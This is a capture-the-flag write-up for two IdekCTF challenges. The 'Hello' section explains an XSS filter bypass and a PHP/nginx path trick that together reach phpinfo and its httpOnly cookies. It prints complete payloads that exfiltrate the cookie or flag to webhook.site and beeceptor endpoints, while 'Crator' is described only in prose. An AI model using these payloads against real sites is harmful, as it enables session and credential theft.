 # Writeups for IdekCTF

# Hello (Web)

This was like a normal admin bot cookie exfiltration challenge but with some twists.

Firstly we have these files:
index.php, info.php, admin.js, nginx.conf.

Notable things about each of these:

The info.php basically fetches the phpinfo() which is a function that displays a lot of information especially the cookie of the viewer.
And most importantly it can even display httpOnly cookies which can't normally be accessed by client side javascript.

https://www.webhackingtips.com/weekly-tips/week-8-stealing-httponly-cookies-from-phpinfo

index.php
This page accepts a name attribute in the GET request,creates a local variable with substring of this value(But does not use this variable!)
and then echo's the same after filtering some characters (`$trimmed = array("\r", "\n", "\t", "/", " ")`). 
But this filter is not enough and it is vulnerable to XSS like `/?name=<svg%0conload=alert(123)>`. 

The admin.js shows that the flag is in the bot's cookie.

Finally the nginx conf shows that info.php is resticted to only localhost(and the admin bot is not running on the same system). But this can be bypassed due to 
a php quirk: There is a known trick in php, if we access to /a.php/b.php, the server will ignore the second php file and point us to /a.php. 
In the nginx configuration file they are matching exactly /info.php so if we try /info.php/anything.php, 
it will not match the nginx rule and it will be allowed!

Combining these our payload should be:

```
<script>
fetch("/info.php/index.php")
  .then(response => response.text())
  .then(data => fetch("https://webhook.site/61fec18d-858c-459a-ad80-b3165f77caca/" + btoa(data.substring(data.indexOf("$_COOKIE"), data.indexOf("$_COOKIE") + 100))))
</script>
```
We can't put this directly due to the filter so we base64 encode it. Also we have to url encode the base64 string because of the '+' in it.
The final payload to send to the bot:
`http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=eval(atob("ZmV0Y2goIi9pbmZvLnBocC9pbmRleC5waHAiKQogIC50aGVuKHJlc3BvbnNlID0%2BIHJlc3BvbnNlLnRleHQoKSkKICAudGhlbihkYXRhID0%2BIGZldGNoKCJodHRwczovL3dlYmhvb2suc2l0ZS82MWZlYzE4ZC04NThjLTQ1OWEtYWQ4MC1iMzE2NWY3N2NhY2EvIiArIGJ0b2EoZGF0YS5zdWJzdHJpbmcoZGF0YS5pbmRleE9mKCIkX0NPT0tJRSIpLCBkYXRhLmluZGV4T2YoIiRfQ09PS0lFIikgKyAxMDApKSkpCg%3D%3D"))>`

This works but there is another interesting approach: https://vaktibabat.github.io/posts/idek_2024/
Instead of base64 you get the filtered elements using substring. So `http://` using `window.location.href.substring(0, 7)` as the windows is http://idek-hello.chal.idek.team:1337
and another substring for getting the '/', `window.location.href.substring(5, 6)`.
So this .js code:

```
fetch(window.location.href.substring(0, 7) + "idek-hello.chal.idek.team:1337" + bwindow.location.href.substring(5,6) + "info.php" + window.location.href.substring(5,6) + "index.php").then(function(response) {
	response.text().then(function(txt) {
	txt.split(`\n`).forEach(function(line) {
		if(line.indexOf("FLAG")!=-1) {
		fetch(window.location.href.substring(0, 7) + "mymockserver123456.free.beeceptor.com" + window.location.href.substring(5,6) + "cookies?resp=" + line)}
	})
	})
})
```
becomes 

```http://idek-hello.chal.idek.team:1337/?name=<svg%0Conload=fetch(window.location.href.substring(0, 7)%2b"idek-hello.chal.idek.team:1337"%2bwindow.location.href.substring(5,6)%2b"info.php"%2bwindow.location.href.substring(5,6)%2b"index.php").then(function(response){response.text().then(function(txt){txt.split(`\n`).forEach(function(line){if(line.indexOf("FLAG")!=-1){fetch(window.location.href.substring(0, 7)%2b"mymockserver123456.free.beeceptor.com"%2bwindow.location.href.substring(5,6)%2b"cookies?resp="%2bline)}})})})>```
which is sent to the bot.

# Crator

Its basically a race condition where you generate a file containing the flag using one endpoint, leave it on a infinite loop to prevent the file from getting deleted and extract the 
flag using another endpoint before the code  execution of the first one is stopped by the instance(which happens in about 1s). Very detailed and better writeup:
https://vaktibabat.github.io/posts/idek_2024/